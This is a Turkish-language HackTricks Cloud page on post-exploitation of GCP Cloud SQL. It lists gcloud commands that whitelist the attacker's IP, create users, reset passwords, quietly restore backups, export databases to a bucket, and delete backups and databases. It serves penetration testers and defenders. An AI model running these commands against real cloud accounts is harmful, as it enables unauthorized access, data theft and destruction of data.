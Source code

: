 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Veritabanlarına bağlanmak için **sadece veritabanı portuna erişim** ve **kullanıcı adı** ile **şifreyi** bilmeniz yeterlidir, herhangi bir IAM gereksinimi yoktur. Bu nedenle, veritabanının bir genel IP adresine sahip olduğunu varsayarsak, erişim sağlamak için kolay bir yol, izin verilen ağları güncelleyip **kendi IP adresinizi erişime açmaktır**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Aynı zamanda veritabanının **yedeklerini bozmak** için **`--no-backup`** kullanmak da mümkündür.

Bu gereksinimler olduğundan, **`cloudsql.instances.connect`** ve **`cloudsql.instances.login`** izinlerinin ne için olduğunu tam olarak bilmiyorum. Eğer biliyorsanız bir PR gönderin!

### `cloudsql.users.list`

Veritabanının **tüm kullanıcılarının listesini** alın:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Bu izin, **veritabanında yeni bir kullanıcı oluşturmayı** sağlar:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Bu izin, veritabanı içindeki **kullanıcıyı güncellemeye** olanak tanır. Örneğin, şifresini değiştirebilirsiniz:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Yedekler **eski hassas bilgileri** içerebilir, bu yüzden bunları kontrol etmek ilginçtir.\
Bir veritabanında **bir yedeği geri yükleyin**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Daha gizli bir şekilde yapmak için, mevcut çalışan veritabanlarında değil, verileri orada kurtarmak için yeni bir SQL örneği oluşturulması önerilir.

### `cloudsql.backupRuns.delete`

Bu izin, yedekleri silmeye olanak tanır:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Bir veritabanını** Cloud Storage Bucket'a aktarın, böylece oradan erişebilirsiniz:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Bir veritabanını içe aktar** (üzerine yaz) bir Cloud Storage Bucket'tan:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Bir veritabanını db örneğinden sil:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
